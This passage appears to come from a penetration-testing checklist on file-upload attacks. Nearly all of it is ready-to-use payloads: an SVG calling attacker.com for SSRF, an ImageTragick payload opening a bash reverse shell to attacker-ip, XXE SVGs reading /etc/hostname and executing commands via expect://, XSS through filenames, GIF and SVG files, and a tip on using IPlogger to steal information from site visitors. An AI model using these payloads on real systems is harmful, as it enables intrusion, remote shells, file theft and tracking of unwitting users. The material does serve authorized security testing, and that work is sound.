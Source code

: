       * Abusing the "Upload from URL", if this image is going to be saved in some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
      * SSRF Through `.svg` file.

      ```php
      <?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
      ```
  *   [ ] ImageTragic

      ```
      push graphic-context
      viewbox 0 0 640 480
      fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
      pop graphic-context
      ```
  *   [ ] XXE

      * Upload using `.svg` file

      ```xml
      <?xml version="1.0" standalone="yes"?>
      <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
      <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
         <text font-size="40" x="0" y="16">&xxe;</text>
      </svg>
      ```

      ```xml
      <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
          <image xlink:href="expect://ls"></image>
      </svg>
      ```

      * Using excel file
  *   [ ] XSS

      * Set file name `filename="svg onload=alert(document.domain)>"` , `filename="58832_300x300.jpg<svg onload=confirm()>"`
      * Upload using `.gif` file

      ```
      GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
      ```

      * Upload using `.svg` file

      ```xml
      <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
      ```
